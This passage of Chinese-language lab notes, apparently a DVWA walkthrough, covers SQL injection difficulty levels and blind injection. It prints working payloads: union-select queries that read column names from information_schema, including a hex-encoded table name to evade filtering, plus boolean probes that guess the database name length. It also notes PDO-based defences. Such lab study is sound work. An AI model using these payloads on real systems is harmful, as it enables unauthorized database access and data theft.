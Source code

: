 `1 union select 1,group_concat(column_name) from information_schema.columns where table_name=’users ’#`失败

16进制替换`1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0×7573657273 #`



### high

`LIMIT 1`，使用#注释掉

需要特别提到的是，High级别的查询提交页面与查询结果显示页面不是同一个，也没有执行302跳转，这样做的目的是为了防止一般的sqlmap注入，因为sqlmap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没办法进一步注入。

### Impossible

PDO技术，划清了代码和数据的界限

限制输出1防脱裤

## SQL Injection(Blind)

页面不回显结果。

盲注分为基于布尔的盲注、基于时间的盲注以及基于报错的盲注

```
1.判断是否存在注入，注入是字符型还是数字型

2.猜解当前数据库名

3.猜解数据库中的表名

4.猜解表中的字段名

5.猜解数据
```

### low

**基于bool**

1. 判断

   `1’ and 1=1 #`

2. 猜名字

   ```
   输入1’ and length(database())=1 #，显示不存在；
   
   输入1’ and length(database())=2 #，显示不存在；
   
   输入1’ and length(database())=3 #，显示不存在；
   
   输入1’ and length(database())=4 #，显示存在：
   ```
